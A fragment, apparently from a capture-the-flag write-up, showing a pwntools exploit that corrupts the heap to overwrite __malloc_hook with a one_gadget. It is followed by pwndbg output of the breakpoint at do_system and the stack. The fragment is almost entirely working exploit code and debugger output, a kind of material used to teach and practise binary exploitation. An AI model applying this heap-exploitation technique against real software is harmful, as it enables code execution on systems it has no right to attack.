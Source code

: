 ```
to trigger malloc
```python
delete(4)
edit(5, 0x68, flat('1' * 0x60, 0x170))
delete(6)
delete(5)
#add(0x120, flat(cyclic(n = 8, length = 0x120)))
add(0x120, flat('a' * 248, 0x71, libc.sym['__malloc_hook'] - 0x23))
add(0x68, 'x' * 10)
add(0x68, flat('\0' * 0x13, libc.sym['one_gadget']))
pause()
p.sendlineafter('choice:', '2')
p.sendlineafter(':', str(0xff))
```
```gdb -q -p `pidof pwn````
```
pwndbg> magic
========== function ==========
system:0x453a0
execve:0xcc7f0
open:0xf70f0
read:0xf7310
write:0xf7370
gets:0x6ed90
setcontext+0x35:0x47b85
========== variables ==========
__malloc_hook(0x3c4b10)             : 0x00007f055712027a
__free_hook(0x3c67a8)               : 0x0000000000000000
__realloc_hook(0x3c4b08)            : 0x0000000000000000
stdin(-0x7f0556ad8f50)              : 0x00007f055749f8e0
stdout(-0x7f0556ad8f60)             : 0x00007f05574a0620
_IO_list_all(0x3c5520)              : 0x00007f05574a0540
__after_morecore_hook(0x3c67a0)     : 0x0000000000000000
pwndbg> b *0x00007f055712027a
Breakpoint 1 at 0x7f055712027a: file ../sysdeps/posix/system.c, line 136.
pwndbg> c
Continuing.

Breakpoint 1, do_system (line=0x0) at ../sysdeps/posix/system.c:136
136	../sysdeps/posix/system.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────[ REGISTERS ]────────────────────────────────────────
*RAX  0x7f055712027a (do_system+1098) ◂— mov    rax, qword ptr [rip + 0x37ec37]
 RBX  0x0
*RCX  0xffffffda

pwndbg> stack 20
00:0000│ rsp  0x7ffc0e579db8 —▸ 0x400a74 (add_item+189) ◂— mov    rdx, rax
01:0008│      0x7ffc0e579dc0 ◂— 0x80e579ef0
02:0010│      0x7ffc0e579dc8 ◂— 0xff
03:0018│      0x7ffc0e579dd0 ◂— 0xa353532 /* '255\n' */
04:0020│      0x7ffc0e579dd8 ◂— 0x411c9b54d0335b00
05:0028│ rbp  0x7ffc0e579de0 —▸ 0x7ffc0e579e10 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
06:0030│      0x7ffc0e579de8 —▸ 0x400e95 (main+222) ◂— jmp    0x400ed3
07:0038│      0x7ffc0e579df0 ◂— 0x200400ee0
08:0040│      0x7ffc0e579df8 —▸ 0x1883010 —▸ 0x400896 (hello_message) ◂— push   rbp
09:0048│      0x7ffc0e579e00 —▸ 0x7ffc0e570a32 ◂— 0x0
0a:0050│      0x7ffc0e579e08 ◂— 0x411c9b54d0335b00
0b:0058│      0x7ffc0e579e10 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
0c:0060│      0x7ffc0e579e18 —▸ 0x7f05570fb840 (__libc_start_main+240) ◂— mov    edi, eax
0d:0068│      0x7ffc0e579e20 ◂— 0x0
0e:0070│      0x7ffc0e579e28 —▸ 0x7ffc0e579ef8 —▸ 0x7ffc0e57c259 ◂— 0x4c43006e77702f2e /* './pwn' */
0f:0078│      0x7ffc0e579e30 ◂— 0x100000000